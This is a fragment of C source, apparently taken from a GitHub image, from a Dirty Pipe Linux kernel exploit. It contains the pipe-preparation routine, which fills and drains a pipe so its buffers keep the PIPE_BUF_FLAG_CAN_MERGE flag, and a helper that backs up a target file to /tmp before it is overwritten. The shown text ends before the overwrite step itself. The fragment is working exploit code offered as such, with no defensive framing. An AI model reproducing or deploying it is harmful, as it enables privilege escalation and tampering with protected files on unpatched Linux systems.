 ```c

    static char buffer[4096];

    /* fill the pipe completely; each pipe_buffer will now have
       the PIPE_BUF_FLAG_CAN_MERGE flag */
    printf("[Dirty Pipe] Filling the pipe...\n");
    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        write(p[1], buffer, n);
        r -= n;
    }
    printf("[Dirty Pipe] Pipe filled successfully.\n");

    /* drain the pipe, freeing all pipe_buffer instances (but
       leaving the flags initialized) */
    printf("[Dirty Pipe] Draining the pipe...\n");
    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        read(p[0], buffer, n);
        r -= n;
    }
    printf("[Dirty Pipe] Pipe drained successfully.\n");

    /* the pipe is now empty, and if somebody adds a new
       pipe_buffer without initializing its "flags", the buffer
       will be mergeable */
}


int backup_file(const char *src_path)
{
    char *filename = basename(strdupa(src_path));

    char dst_path[PATH_MAX];
    snprintf(dst_path, sizeof(dst_path), "/tmp/%s.bak", filename);

    printf("[Dirty Pipe] Attempting to backup '%s' to '%s'\n", src_path, dst_path);

    FILE *f1 = fopen(src_path, "r");
    if (f1 == NULL)
    {
        perror("[Dirty Pipe] Error opening source file for reading");
        return EXIT_FAILURE;
    }

    FILE *f2 = fopen(dst_path, "w");
    if (f2 == NULL)
    {
        fclose(f1);
        perror("[Dirty Pipe] Error opening destination file for writing");
        return EXIT_FAILURE;
    }

    char c;
    while ((c = fgetc(f1)) != EOF)
        fputc(c, f2);

    fclose(f1);
    fclose(f2);

    printf("[Dirty Pipe] Successfully backed up '%s' to '%s'\n", src_path, dst_path);
    return EXIT_SUCCESS;
}
```
